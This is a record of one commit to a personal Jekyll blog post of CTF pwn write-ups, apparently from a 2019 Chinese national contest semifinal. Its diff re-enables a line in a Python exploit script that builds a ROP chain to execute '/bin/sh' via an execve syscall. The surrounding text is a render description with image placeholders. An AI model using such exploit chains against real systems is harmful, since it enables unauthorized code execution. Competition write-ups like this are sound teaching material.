

Before and after one commit to ZoEplA/ZoEplA.github.io, a Jekyll site: the page built from _posts/2019-06-29-2019国赛华南赛区半决赛 pwn部分题解.md, in a window 1280 px wide and 900 px high, scrolled down 4516 px. Shown: the part 152-452 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
debug in script

```diff
--- a/_posts/2019-06-29-2019国赛华南赛区半决赛 pwn部分题解.md
+++ b/_posts/2019-06-29-2019国赛华南赛区半决赛 pwn部分题解.md
@@ -272,7 +272,7 @@ def exp():
 	data = u64(p.recvn(8)) - 0x118#0x128
 	print hex(data) # stack addr
 	payload = "/bin/sh\x00" + p64(pop_rdi) + p64(rax_3b) # set rax to 0x3b
-	#payload += csu(data-0x18,0,0,0) # data-0x18 -> pop_rdi(csu -> call pop_rdi) and set rsi,rdx = 0
+	payload += csu(data-0x18,0,0,0) # data-0x18 -> pop_rdi(csu -> call pop_rdi) and set rsi,rdx = 0
 	payload += p64(pop_rdi) + p64(data-0x20) + p64(syscall) # data-0x20 -> /bin/sh\x00
 	p.sendline(payload)# second read
 exp()
```
